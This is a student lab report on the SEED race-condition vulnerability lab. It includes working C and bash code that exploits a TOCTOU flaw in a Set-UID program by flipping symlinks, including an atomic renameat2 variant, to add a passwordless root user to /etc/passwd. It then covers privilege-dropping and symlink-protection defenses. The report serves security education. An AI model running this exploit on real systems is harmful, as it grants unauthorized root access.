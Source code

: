 # RACE-CONDITION VULNERABILITY LAB
## SEED Lab #2

## Identification
- **Group nº3**
    - **José Rodrigues** : 201708806
    - **Paulo Ribeiro** : 201806505
    - **Pedro Ferreira** : 201806506

## Task 1:

- As indicated, we tested if the *magic password* works in our Ubuntu, by placing a test user in the /etc/passwd:
```shell
test:U6aMy0wojraho:0:0:test:/root:/bin/bash
```
- We attempted the login, without a password (only pressing **Enter**) and we did indeed login successfully and we had root access since, for example, we can edit the /etc/passwd file, proving the existence of this *magic password*.

## Task 2:

#### Task 2.A:

- We will first attempt to execute this attack by simulating a slow machine. We do that by adding the following instruction to the command between the *access* and the *fopen* calls:
```bash
sleep(10)
```
- After recompiling the program, we can now attempt this attack by running the program and giving as input the user we want to create, and within the given 10-second window, create a symbolic link that will make /tmp/XYZ (file that we had to create) lead to /tmp/passwd.
- We do all of this by running these commands:
```shell
touch /tmp/XYZ
./vulp
test:U6aMy0wojraho:0:0:test:/root:/bin/bash
ln -sf /etc/passwd /tmp/XYZ
```

- This results in the root test user (passwordless) being added to the /etc/passwd file, which makes our attack successful

#### Task 2.B:

- Now we are attempting to actually do the attack without "cheating" on the time we have to launch the attack, so our program should do the critical step within the time window of the access and writing of the /temp/XYZ file.
- We started by creating a C file which will be responsible for removing and adding the symbolic link of the /tmp/XYZ file pointing to /etc/passwd. This should be done in an infinite loop so it can be executed enough tries.

```c
#include <unistd.h>
int main() {
	while(1) {
		unlink("/tmp/XYZ");
		symlink("/etc/passwd","/tmp/XYZ");
	}
	return 0;
}
```

- We also used the bash script below to run the vulnerable program on loop and monitor its results, letting us know when the attack is successful in altering the /etc/passwd file.

```bash
#!/bin/bash
CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
    echo "test:U6aMy0wojraho:0:0:test:/root:/bin/bash" | ./vulp
    new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"
```

- Some time after running both of the programs above, we verified that the attack eventually worked, as shown in the printscreen below. We then attempted to login into the root user **test** using the *magic password* (no password), which worked as intended.

![](https://i.imgur.com/0kPlkK1.png)

- However, the attack did not always work as intended, since the XYZ file sometimes became owned by root, which prevented the attack from working. Consequently, we had to restart it after removing and creating a new /tmp/XYZ file as a regular user.

#### Task 2.C:

- In this task we fixed the race-condition vulnerability present in our attack program, which was changing the /tmp/XYZ file permissions to root, preventing the attack program from making changes to it.
- To achieve that, we must make `unlink()` and `symlink()` atomic, by using the `renameat2()`  system call to atomically switch between two symbolic links.

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
int main() {
	unsigned int flags = RENAME_EXCHANGE;
	unlink("/tmp/XYZ"); symlink("/dev/null", "/tmp/XYZ");
	unlink("/tmp/ABC"); symlink("/etc/passwd", "/tmp/ABC");
	while(1) {
		renameat2(0, "/tmp/XYZ", 0, "/tmp/ABC", flags);
	}
	return 0;
}
```

- Upon trying this attack, it worked a lot faster than the previous ones, and it never fails due to the atomic calls creating and deleting the symbolic link. This means we achieved our goal of changing the /etc/passwd file, adding a new root user "test" with the *magic password*.

## Task 3:

#### Task 3.A:

- In this task, we applied the *Principle of Least Privilege* to the `vulp` program, by temporarily disabling the root privilege right before the access to the /tmp/XYZ file and later restoring the previous real user ID.

```c=
int main() {
	char* fn = "/tmp/XYZ";
	char buffer[60];
	FILE* fp;
	
	uid_t saved_uid = getuid(), safe_uid = 2;

	/* get user input */
	scanf("%50s", buffer);

	seteuid(safe_uid);  /* change to the non-privileged id configured */

	fp = fopen(fn, "a+");
	if (!fp) {
	    perror("Open failed");
	    exit(1);
	}
	fwrite("\n", sizeof(char), 1, fp);
	fwrite(buffer, sizeof(char), strlen(buffer), fp);
	fclose(fp);
	
	seteuid(saved_uid); /* return back to saved uid */

	return 0;
}
```

- After applying our fix to the `vulp` program, we ran the attack on it again, and after 10 minutes we still could not change the /etc/passwd file.

![](https://i.imgur.com/P39e5YG.png)

- So, we conclude that in the event of an attack that attempts to change the file to which we are writing to a file whose access requires root permissions, it won't work as the program will no longer have root privileges at that moment. In this case, even if the symbolic link points to the /etc/passwd, its access will be denied since only root can access it and the privileges were dropped during that moment.

#### Task 3.B:

- After turning the Ubuntu protection back on and trying the attack using the `vulp` version without the *Principle of Least Privilege*, we verified that the attack does not work.

#### Question 1: How does this protection scheme work?

- This scheme adds some rules to the following of symlinks, which will only be allowed when at least one of the following situations is true:
    - the symlink is outside of a sticky world-writable directory
    - the uid of the symlink and follower match
    - the directory owner matches the symlink’s owner

Since the /tmp folder has a "sticky" bit on, meaning that only the owner of the file can delete the file, even though the folder is world-writable, the first situation fails. The symbolic link would only work if it was created by the directory owner or by the follower. In our case, the /tmp owner (root) differs from the symlink creator (regular user) and also from the follower (root, because the `vulp` is a SET-UID root program). So, the three situations fail, therefore the symbolic link created by a regular user will never be followed.

#### Question 2: What are the limitations of this scheme?

After some searching, we came to the conclusion that there is at least one possible way of skipping this protection, which is the following case:

- If one owns a directory `/a/b` but does not have the search permissions (+x) on `/a` (and do not have `/a/b` as the current directory) then nothing can be done with `/a/b`. However, under this rule, a symlink to `/a/b` can still be created (it fulfils the third situation, for example), which would be followed by other users since `/a/b` is owned, even though `/a` cannot be accessed.